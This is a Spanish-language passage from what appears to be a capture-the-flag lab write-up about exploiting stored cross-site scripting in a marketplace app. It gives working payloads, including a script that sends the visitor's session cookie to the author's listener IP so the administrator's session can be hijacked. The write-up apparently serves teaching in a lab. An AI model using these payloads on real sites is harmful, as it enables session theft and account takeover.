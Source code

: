 Para esto podriamos hacer uso del objeto `document` presente en [JavaScript](https://www.w3schools.com/js/js_htmldom_document.asp) y aprovecharnos de la propiedad `.cookie` de este mismo para poder leer las Cookies de la persona que ejecuta el script.

Si en vez de pasar texto a la funcion `alert()` pasamos la propiedad `document.cookie` del modo

```html
<script>alert(document.cookie)</script>
```

Y lo introducimos dentro del campo Descripcion del objeto, al abrir este objeto nos topamos con una alerta emergente con nuestra Cookie de sesion actual:

![image](https://user-images.githubusercontent.com/85322110/148670387-35d03214-b6a3-4901-9fa8-e1ce49e45533.png)

Ahora bien, nuestro interes es de cierta forma remotamente obtener la Cookie del administrador, pero mostrarlo en una alerta emergente para el no nos servira de mucho, asi que debemos pensar una forma de obtener esa informacion en nuestro extremo y lograr nuestro `Cookie Hijacking` a ver que privilegios logramos.

Una de estas formas es hacer un script que intente hacer una peticion `GET` a un servidor web nuestro y agregar de alguna forma la Cookie actual en algun campo de esta peticion `GET`. Esto se logra facilmente si nos montamos un servidor web local con `Python` a traves de un modulo que trae por defecto llamado `http.server`, lo montamos de la siguiente forma:

> sudo python -m http.server 80

![image](https://user-images.githubusercontent.com/85322110/148670510-17926c3c-f02a-471d-867f-b2f7a3e88e4a.png)

Ya con esto tenemos un servidor activo en el puerto 80 de nuestra IP, el cual nos mostrara las peticiones en pantalla. De esta forma si creamos un nuevo objeto en el Marketplace y utilizamos el siguiente tag en el campo de Descripcion

```html
<img src="http://10.8.33.130/image.jpg"></img>
```

Vemos que esta tag intentara poner una imagen proveniente de nuestra IP 10.8.33.130 (asignada en la interfaz `tun0` proporcionada por el `openvpn`) pero dicha imagen no existe, sin embargo en la consola logramos ver la peticion de igual manera:

![image](https://user-images.githubusercontent.com/85322110/148670569-f40a419e-a2a2-4fc4-ae8b-c384e75accb5.png)

Ahora hay que buscar una forma de agregar la Cookie a esta peticion, para ello podriamos hacer uso de otra propiedad del objeto `document` llamada `.write` la cual escribe dentro de la salida del HTML en si, y con el siguiente script podemos precisamente agregar la cookie al final de la peticion que hicimos en la imagen:

```html
<script>document.write('<img src="http://10.8.33.130/image.jpg?' + document.cookie + '"></img>')</script>
```

Analizando el script, vemos que es la misma peticion `<img src="http://10.8.33.130/image.jpg"></img>` pero se le agrego `?token=xxxxxxxxxxxxxx` a traves de concatenacion lograda por el metodo `document.write` presente en JavaScript.

Si creamos nuevamente un objeto dentro del Marketplace con el script fabricado arriba, veremos la respuesta en consola al hacer la peticion por la `img`
